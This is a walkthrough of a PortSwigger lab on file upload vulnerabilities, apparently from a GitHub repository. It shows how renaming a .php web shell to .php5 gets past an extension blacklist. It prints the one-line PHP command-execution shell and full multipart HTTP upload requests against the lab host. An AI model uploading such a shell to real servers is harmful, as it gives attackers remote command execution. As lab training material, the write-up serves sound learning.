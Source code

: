 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ebebf5e5-90e1-448c-9065-38df9a33c893)

## Overview :

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as **.php5,.shtml,.oho4,.php7,.phtml** and so on. 

## Solution :

Login as wiener to access the upload functionality.

Upload a **.php** file with the following payload `<?php echo system($_GET['command']); ?>`.`

THe request sent is as follows,

```html
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Cookie: session=GnGAzOUPjzGgNytcTKzcIplgL1T4H38L
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------35474142021105913272615045188
Content-Length: 524
Origin: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Referer: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```


We get an error response stating that **.php files are not allowed to be uploaded.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d92c9ee8-25ee-4fd9-9930-f7254289b044)

This is maybe because in the body of the request we have a `filename="file.php" parameter`. From this we may assume that the server identifies it as a **.php file extension**  and rejects the upload request.

### Byassing the extension bypass -

In the same request we can give other types of php like **php5/php4** etc..,

Modify the **filename=** parameter with the filename extension as **.php5**.

```
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
.
.
.
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php5"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```
This time we get _file successfully uploaded_ message in the response response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/90e0c5b1-161c-4cd5-8805-47a98a6cff26)


